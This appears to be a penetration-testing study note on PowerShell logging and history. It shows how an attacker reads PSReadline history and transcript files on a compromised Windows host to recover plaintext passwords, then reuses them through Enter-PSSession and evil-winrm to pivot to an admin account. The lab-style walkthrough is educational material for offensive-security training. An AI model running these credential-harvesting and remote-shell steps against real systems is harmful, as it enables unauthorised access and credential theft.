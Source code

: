 
# PowerShell Logging & History
Unfortunately for us, finding juicy [sensitive-files](sensitive-files.md) on target machines is not as common as it used to be, and defensive techniques have improved a lot. However, one defensive technique requires increased logging surrounding command and operations executed on machines. Since [Windows](../../../computers/windows/README.md) only logs a small amount of data by default, IT staff commonly have to enable [powershell](../../../coding/languages/powershell.md) logging mechanisms on clients and servers in order to get as much insight into the environment as they can. This makes powershell *a vital resource* for attackers gathering information on a compromised machine.
## Types of PS Logging
### PowerShell Transcription
[_PowerShell Transcription_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.host/start-transcript) is one of two important powershell logging mechanisms we can take advantage of. When enabled, PS Transcription is *equal to what a person would see if they were looking over the shoulder of the user* who is entering commands into PS. Because of this, it's also called "over-the-shoulder-transcription."

The information is stored in *transcript files* which are usually saved in the *home directories* of users, a central directory for all users, or in a network share.
### PowerShell Script Block Logging
[_PowerShell Script Block Logging_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2) records commands and blocks of script code *as events* while they're executing. The amount of information collected is therefor *much broader* than for PS Transcription (because the full content of the code and commands are recorded as they're executing).
## Taking Advantage as an Attacker
> [!Note]
> For this section, assume we're connected to a victim machine via a [netcat](../../../cybersecurity/TTPs/exploitation/tools/netcat.md) [bind-shell](../../../cybersecurity/TTPs/exploitation/bind-shell.md) on port `44444`. We're connected again as the user `dave` and have launched a PowerShell session.
### How PowerShell History Works
You can view the PS history of a user with the `Get-History` cmdlet. However, most sysadmins will use `Clear-History` to clear their PS history. Fortunately for us, starting with PS v5, PS has a module called `PSReadline` included which can be used for line-editing and command history functions.

`Clear-History` *does not clear the history of `PSReadline`* meaning we can check if the current user has history saved from using `PSReadline`. To check, we'll use the `Get-PSReadlineOption` to see information about the module itself.  Since this is cmdlet (and PS is OOP), we can append a dot to it and then the method `HistorySavePath` to retrieve only one option from all the module's available options:
```powershell
PS C:\Users\dave> (Get-PSReadlineOption).HistorySavePath

C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
`HistorySavePath` has revealed a *history file* from `PSReadline`. Let's use `type` to output its content:
```powershell
PS C:\Users\dave> type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
...
$PSVersionTable
Register-SecretVault -Name pwmanager -ModuleName SecretManagement.keepass -VaultParameters $VaultParams
Set-Secret -Name "Server02 Admin PW" -Secret "paperEarMonitor33@" -Vault pwmanager
cd C:\
ls
cd C:\xampp
ls
type passwords.txt
Clear-History
Start-Transcript -Path "C:\Users\Public\Transcripts\transcript01.txt"
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
exit
Stop-Transcript
```
From the output we've learned:
- `dave` executed `Register-SecretVaule` with the module `SecretManagement.keepass` to create a new password manager database for KeePass
- `dave` used `Set-Secret` to create a secret, or entry, in the password manager with the name `Server02 Admin PW` and the password `paperEarMonitor33@` (probably creds for another system)
- `dave` used `Clear-History` in an attempt to clear the PS history
- `dave` used `Start-Transcript` to start *PowerShell Transcription*, the command also contains the path where the transcript file is stored'
- `dave` executed `Enter-PSSession` with the hostname of the local machine as an argument as well as a *PSCredential* object called `$cred` (which contains the username and password for `-Credential`)

Unfortunately, the one piece of info we're missing is the actual username and password in the PSCredential object `$cred`. If we examine the transcript file mentioned in the output though, we might be able to find them:
```powershell
PS C:\Users\dave> type C:\Users\Public\Transcripts\transcript01.txt

**********************
Windows PowerShell transcript start
Start time: 20220623081143
Username: CLIENTWK220\dave
RunAs User: CLIENTWK220\dave
Configuration Name: 
Machine: CLIENTWK220 (Microsoft Windows NT 10.0.22000.0)
Host Application: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Process ID: 10336
PSVersion: 5.1.22000.282
...
**********************
Transcript started, output file is C:\Users\Public\Transcripts\transcript01.txt
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
PS C:\Users\dave> Stop-Transcript
**********************
Windows PowerShell transcript end
End time: 20220623081221
**********************
```
#### PSCredential Objects
For a user to create a [_PSCredential_](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential) object like in the transcript file above, the user needs to create a [_SecureString_](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring) first to store the password. Then they can give that to `System.Managemet.Automation.PSCredential()` as a parameter along with the username. The result is a PSCredential object which can be used in commands like `Enter-PSSession`.

Since `dave` was the account that created the original PSCred object, we can try to do the same thing by re-creating the commands from the transcript file (including `Enter-PSSession`). This should pop us into a new PS shell as the user `daveadmin`:
```powershell
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force

PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)

PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
whoami
clientwk220\daveadmin
```
#### `Enter-PSSession`
[`Enter-PSSession`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2)creates a *remote PS session via [WinRM](../../../computers/windows/WinRM.md).* However, since we're connected to the host via our bind-shell and then WinRM, this causes *unexpected behavior*. For instance, even though `whoami` works, other commands do not.
#### Evil-WinRM
To avoid issues like this, we can use the [evil-winrm](../../../cybersecurity/TTPs/exploitation/tools/evil-winrm.md) tool which will give us a stable WinRM shell. This tool provides built-in functionality used for pen-testing like [pass-the-hash](../../../cybersecurity/TTPs/exploitation/pass-the-hash.md), in-memory loading, and file upload/download capability. Instead of executing this from the compromised box, we can execute it from our pen-testing machine:
```bash
kali@kali:~$ evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"

Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\daveadmin\Documents> whoami
clientwk220\daveadmin
*Evil-WinRM* PS C:\Users\daveadmin\Documents> cd C:\
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         8/27/2024   3:22 AM                FileZilla
d-----          5/6/2022  10:24 PM                PerfLogs
d-r---         8/27/2024   3:20 AM                Program Files
d-r---          5/7/2022  12:40 AM                Program Files (x86)
d-----          7/4/2022   1:00 AM                tools
d-r---         8/21/2024   6:43 AM                Users
d-----         8/21/2024   6:47 AM                Windows
d-----         6/16/2022   1:17 PM                xampp
```

> [!Resources]
> - [_PowerShell Transcription_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.host/start-transcript)
> - [_PowerShell Script Block Logging_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2)
> - [_PSCredential_](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential)
> - [_SecureString_](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring) 
> - [_Enter-PSSession_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.